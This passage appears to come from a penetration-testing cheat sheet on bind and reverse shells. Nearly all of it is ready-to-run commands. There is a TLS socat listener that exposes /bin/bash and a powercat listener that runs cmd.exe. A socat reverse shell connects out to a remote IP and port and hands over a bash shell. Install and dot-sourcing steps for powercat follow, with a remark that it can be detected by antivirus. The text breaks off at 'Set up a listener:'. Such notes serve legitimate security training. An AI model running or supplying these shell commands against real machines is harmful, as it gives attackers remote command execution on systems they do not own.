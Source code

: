 * Listener:

```bash
socat OPENSSL-LISTEN:$PORT,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

* Client:

```bash
socat - OPENSSL:$IP:$PORT,verify=0
```

* `powercat`:

```powershell
powercat -l -p $PORT -e cmd.exe
```

## Reverse Shells

### Socat

Listen:

```
socat -d -d TCP4-LISTEN:443 STDOUT
```

* \-d -d = increase verbosity (fatal, error, warning, notice)

Connect:

```
socat TCP4:IP:PORT EXEC:/bin/bash
```

### PowerCat

{% embed url="https://github.com/besimorhino/powercat/blob/master/powercat.ps1" %}

You can install powercat on Kali with:

```
sudo apt install powercat
```

The location of the script is located under:

```
/usr/share/windows-resources/powercat
```

You can perform dot-sourcing to make all variables and functions declared in the script available in the current PowerShell scope.

```
. .\powercat.ps1
```

For powercat, a payload is a set of PowerShell instructions **(Can be detected by AV and IDS)**

Set up a listener:
